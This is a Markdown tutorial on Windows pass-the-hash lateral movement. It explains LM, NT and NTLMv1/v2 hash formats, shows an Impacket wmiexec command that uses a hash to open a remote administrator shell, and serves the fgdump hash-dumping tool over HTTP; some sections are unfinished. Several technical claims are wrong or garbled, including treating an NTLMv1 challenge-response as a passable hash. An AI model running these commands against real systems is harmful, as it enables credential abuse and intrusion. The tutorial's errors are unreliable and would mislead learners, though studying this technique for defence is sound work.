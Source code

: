 # Pass-The-Hash Windows

In most case of leathral movment, we usually don't have password. 
This technique, allows us to authenticate to a remote target by using a valid username and NTLM/LM hash rather than username and password. First let's understand the diffrences between LM,NTLM and NTLMv1/v2 hashes:

## Lan Manager (LM) Hashes

The oldest password storage used by Windows. In Windows 2000, XP and Server 2003 passwords shorter than 15 characters were stored in the Lan Manager (LM) hash format as following:

```
user:group:id:lmhash:nthash::
```

For example:

```
 Admin:502:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::
```

This hash divided by semicolon, means:

- Admin is the user name

- 502 is the relative identifier (500 is an administrator, 502 here is a kerberos account. (adsecurity.org/?p=483)

- aad3c435b514a4eeaad3b935b51304f is the LM hash

- c46b9e588fa0d112de6f59fd6d58eae3 is the NT hash 


Our final NTLM hash for brute force attack will be *aad3c435b514a4eeaad3b935b51304fe*

## NT (New Technology) Hashes

In newer Windows versions (such as Vista, Server 2008+, Win7 etc.) this is the way passwords are stored, also those hashes are stored on domain controllers in the NTDS file and commonly use for pass-the-hash. This commonly use in term of NTLM hash (or just NTLM).

NTLM hash with only the NT component format as following:

```
user:group:id:emptylmhash:nthash::
```

For example:

```
Administrator:500:NO PASSWORD*********************:EC054D40119570A46634350291AF0F72:::
ITguy:1007:AAD3B435B51404EEAAD3B435B51404EE:38103E9BF8D09200D725F1541ECC5BCA:::
```

In both cases, it is the same format. However, the string "NO PASSWORD" or "AAD3B435B51404EEAAD3B435B51404EE" display in place of no password depend on the tool being used to dump those hashes as normally LM hash is empty and not stored. NTLM hash can be cracked to gain password, or used to pass-the-hash.

## NTLMv1/v2

Those NTLMv1/v2 are challenge response protocols used for authentication in Windows environments, much harder to bruteforce and usually used in SMB relay attack using Responder.py or Impacket Python tools to obtains this hash from a client in the network.

NTLMv1-SSP hash format as following:

```
username::hostname:*response*:*response*:challenge
```

For example:

```
john::MWLAB:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
```

We will use the response characters from the hash string as our final hash for pass-the-hash:

```
38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41
```

Then, use this hash on one of pth (pass-the-hash) tools for example wmiexec from Impacket:

```
root@kali:~# wmiexec.py  -hashes 38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41 administrator@192.168.1.12
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

## Dump Hashes

Dump hashes from running system using fgdump.exe from Kali as following:

```
root@kali:~# cd /usr/share/windows-binaries/fgdump;
root@kali:/usr/share/windows-binaries/fgdump# python -m SimpleHTTPServer 80
```

Or by using powershell script to dump hashes from memory:

```
[TBD]

```

## Practical Usage PTH

TBD...


